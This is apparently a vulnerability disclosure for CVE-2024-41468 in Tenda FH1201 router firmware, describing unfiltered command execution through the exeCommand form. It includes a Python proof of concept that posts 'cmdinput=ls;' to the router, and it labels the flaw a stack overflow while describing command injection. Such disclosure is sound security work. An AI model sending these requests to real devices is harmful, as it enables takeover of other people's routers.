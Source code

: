 # exeCommand

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41468

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the exeCommand function.The cmdinput parameter is copied to stack space v7 without any filtering, and then executed, so an attacker can exploit this vulnerability to execute arbitrary commands

![image-20240724103726318](./image-20240724103726318.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/exeCommand"


data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```

![image-20240724104052464](./image-20240724104052464.png)
